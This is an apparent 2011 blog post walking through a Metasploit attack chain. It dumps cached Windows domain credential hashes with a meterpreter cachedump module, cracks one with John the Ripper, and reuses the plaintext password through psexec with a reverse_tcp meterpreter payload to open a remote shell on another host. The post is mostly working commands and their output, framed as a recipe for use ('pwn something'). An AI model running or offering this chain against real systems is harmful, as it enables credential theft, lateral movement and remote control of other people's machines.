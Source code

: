 = Cachedump for Meterpreter in action
:hp-tags: meterpreter, cachedump

**Update**: Cachedump has been added to the Metasploit trunk:

[https://dev.metasploit.com/redmine/projects/framework/repository/revisions/12946](https://dev.metasploit.com/redmine/projects/framework/repository/revisions/12946)

Pull it down:

```
wget http://lab.mediaservice.net/code/cachedump.rb
```

put it here:  `/(metasploitdir)/modules/post/windows/gather`

Load up console and pwn something then (MAKE SURE YOU ARE SYSTEM):

```
meterpreter > run post/windows/gather/cachedump
[*] Executing module against WORKSTATION244
[*] Obtaining the boot key...
[*] Trying 'XP' style...
[*] Getting PolSecretEncryptionKey...
[*] XP compatible client
[*] Lsa Key: 29249a6480f428cb6dacba2d30d5292c
[*] Getting LK$KM...
[*] Dumping cached credentials...
Username  : jdoe
Hash  : 592cdfbc3f1ef77ae95c75f851e37166
Last login  : 2010-05-11 01:43:48
DNS Domain Name  : CONTOSO.CO
Effective Name  : jdo
Full Name  : eJane Do
User ID  : 1107
Primary Group ID  : 513
Additional groups  : 33620069 33554432 34013184
Logon domain name  : CONTOS
----------------------------------------------------------------------
 
[*] John the Ripper format:
jdoe:592cdfbc3f1ef77ae95c75f851e37166:CONTOSO.CO:CONTOS

[*] Hash are in MSCACHE format. (mscash)
meterpreter >
```

Crack it:

```
cat lab.dic | ./john --stdin lab.mscash --format=mscash --pot=lab.pot  
Loaded 1 password hash (M$ Cache Hash [Generic 1x])  
ASDqwe123  (jdoe)  
guesses: 1  time: 0:00:00:00  c/s: 500  trying: ASDqwe123
```

Use it:

```
meterpreter > background  
msf exploit(handler) > route add 10.10.10.0 255.255.255.0 1  
msf exploit(handler) > use exploit/windows/smb/psexec  
msf exploit(psexec) > set PAYLOAD windows/meterpreter/reverse_tcp  
PAYLOAD => windows/meterpreter/reverse_tcp  
msf exploit(psexec) > set LHOST X.X.X.X  
LHOST => X.X.X.X  
msf exploit(psexec) > set LPORT 80  
LPORT => 80  
msf exploit(psexec) > set SMBDomain Contoso
SMBDomain => Contoso  
msf exploit(psexec) > set SMBUser jdoe  
SMBUser => jdoe  
msf exploit(psexec) > set SMBPass ASDqwe123  
SMBPass => ASDqwe123  
msf exploit(psexec) > show options

Module options (exploit/windows/smb/psexec):

Name  Current Setting  Required  Description  
----  ---------------  --------  -----------  
RHOST  yes  The target address  
RPORT  445  yes  Set the SMB service port  
SMBDomain  Contoso  no  The Windows domain to use for authentication  
SMBPass  ASDqwe123  no  The password for the specified username  
SMBUser  jdoe  no  The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):


Name  Current Setting  Required  Description  
----  ---------------  --------  -----------  
EXITFUNC  process  yes  Exit technique: seh, thread, none, process  
LHOST  X.X.X.X  yes  The listen address  
LPORT  80  yes  The listen port


Exploit target:

Id  Name  
--  ----  
0  Automatic

 
msf exploit(psexec) > set RHOST 10.10.10.200  
RHOST => 10.10.10.200  
msf exploit(psexec) > exploit

[*] Started reverse handler on X.X.X.X:80  
[*] Connecting to the server...  
[*] Authenticating to 10.10.10.200:445|Contoso as user 'jdoe'...  
[*] Uploading payload...  
[*] Created jSlxARUj.exe...  
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.10.10.200[svcctl] ...  
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.10.10.200[svcctl] ...  
[*] Obtaining a service manager handle...  
[*] Creating a new service (SyHtwKpn - "MbEXNupOpYUL")...  
[*] Closing service handle...  
[*] Opening service...  
[*] Starting the service...  
[*] Removing the service...  
[*] Closing service handle...  
[*] Deleting jSlxARUj.exe...  
[*] Meterpreter session 2 opened (X.X.X.X:80 -> X.X.X.X:54430) at Mon Feb 14 22:23:00 +0000 2011
```

Woot ;-)
